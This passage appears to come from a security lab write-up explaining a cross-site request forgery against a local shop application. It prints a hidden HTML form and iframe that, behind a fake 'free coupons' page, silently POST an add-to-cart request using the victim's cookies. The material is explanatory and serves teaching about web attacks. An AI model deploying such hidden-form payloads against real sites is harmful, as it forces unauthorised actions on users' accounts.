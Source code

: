 In reality, it hides a malicious intent, implemented with the following hidden input, that is submitted when the user clicks the button:

```html
<form
  hidden
  id="hack"
  target="csrf-frame"
  action="http://127.0.0.1:5000/shop/add_to_cart/1"
  method="POST"
  autocomplete="off"
></form>

<iframe
  hidden
  name="csrf-frame"
  id="frame"
  width="1000px"
  height="1000px"
></iframe>
```

What the page does is pretend to offer free discount coupons for the store, but instead, it utilizes the user's stored cookies to insert fictitious products into the shopping cart, as can be observed at the bottom of the user's shopping list:

![](../analysis/images/Captura-de-ecrã-2023-10-27-às-17.28.19.png)
